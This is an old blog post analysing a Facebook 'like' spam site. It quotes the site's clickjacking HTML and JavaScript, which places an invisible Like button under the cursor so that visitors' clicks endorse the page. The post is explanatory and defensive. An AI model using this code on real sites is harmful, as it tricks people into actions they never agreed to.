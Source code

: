 ```yaml
---
author: Simon
comments: true
date: 2010-08-25 19:23:43+00:00
excerpt: How I got suckered into Liking "Smoking Hot Bartenders" on Facebook
layout: post
slug: smoking-hot-bartender-is-some-smoking-hot-facebook-spam
title: '"Smoking Hot Bartenders" is Some Smoking Hot Facebook Spam'
wordpress_id: 155
categories:
- Development
tags:
- Facebook Spam
- Wack
---
```


Yesterday I noticed a ton of my friends on Facebook were "liking" **‎:|:|:|:|:|:| Smoking Hot Bartenders :|:|:|:|:|:|**.  Noticing that even some friends who I would never think would like that (girls), I decided to click on it and take a look. 

[![](/assets/wp-content/uploads/2010/08/friends-like-hot-bartenders.png)](/assets/wp-content/uploads/2010/08/friends-like-hot-bartenders.png)

The "Smoking Hot Bartenders" site, of course, is some sort of spam site where the user is prompted to fill out some leadgen form (or offer) in order to access pictures of the "smoking hot bartenders". Declining to do so, I closed the window and figured that was that.

I was quite surprised to check my feed today and notice that I had "liked" the same page on Facebook. How did this happen?

I decided to take a look at the site, [http://cutebabesbartending.info/](http://cutebabesbartending.info/), and see how they were executing this very viral scheme.

The first thing you see when you land on the site, most likely from Facebook (and hence logged in), is a screen with some hot girls and a link to click through. This link is the key to the scheme.

[![](/assets/wp-content/uploads/2010/08/Screen-shot-2010-08-25-at-11.43.35-AM.png)](/assets/wp-content/uploads/2010/08/Screen-shot-2010-08-25-at-11.43.35-AM.png)

Taking a look the source of the page we see:
[html]
<h2>
    <a href="photos.html">Continue here to see photos</a>
</h2>
<div style="overflow: hidden; position: absolute; filter:alpha(opacity=0); -moz-opacity:0.0; -khtml-opacity: 0.0; opacity: 0.0;" id="aaaa">       
  <iframe src="http://www.facebook.com/plugins/like.php?href=http%3A%2F%2Fcutebabesbartending.info%2F&amp;layout=standard&amp;show_faces=true&amp;width=450&amp;action=like&amp;font&amp;colorscheme=dark&amp;height=80" scrolling="no" frameborder="0" style="border:none; overflow:hidden; width:20px; height:20px;" allowTransparency="true" id="xxx" name="xxx"></iframe>
</div>
[/html]

Note we have here an absolutely positioned DIV with an IFRAME to the facebook like page. But where is the code that clicks the link? If they are triggering from the click why does this facebook like button fire? Check out the code below. Note that id **xxx** is the iframe itself, and **aaaa** is the facebook like button.

[html]
<script>
      var xxx = 0;
      var aaaa = document.getElementById('aaaa');    
      var standardbody=(document.compatMode=="CSS1Compat")? document.documentElement : document.body

      function lololol(e){
        if (window.event) {
          aaaa.style.top = (window.event.y-5)+standardbody.scrollTop+'px';
          aaaa.style.left = (window.event.x-5)+standardbody.scrollLeft+'px';
        } 
        else {
          aaaa.style.top = (e.pageY-5)+'px';
          aaaa.style.left = (e.pageX-5)+'px';
        }
      }
        document.onmousemove = function(e) {
          if (xxx == 0) {lololol(e);}
        }
</script>
[/html]

This is kind of ingenious: they are re-drawing the Facebook like button so it follows your mouse around the screen, and when you click on the link you click on both the like button and the link to the next page!

But why don't you see the like button? It's because the opacity of the parent element is set to 0 (ie completely transparent, thanks to commenter Colby Russell for correcting me). Let's change this and see what happens:
[![](/assets/wp-content/uploads/2010/08/smoking-hot-scam.png)](/assets/wp-content/uploads/2010/08/smoking-hot-scam.png)

Look at that Facebook like button there by my cursor! 

This is fairly brilliant spam - you click off of Facebook and unsuspectingly click on the link to get to the page where you assume there might be spam but you can ignore it. However, unbeknownst to you, you've already "liked" the spammy page, and it's now sitting in your feed waiting for the next sucker, er... friend, to click on it.

**Updated**: commenter [Ryan King](http://theryanking.com/) notes that the term for this spammy technique is [Clickjacking](http://en.wikipedia.org/wiki/Clickjacking).

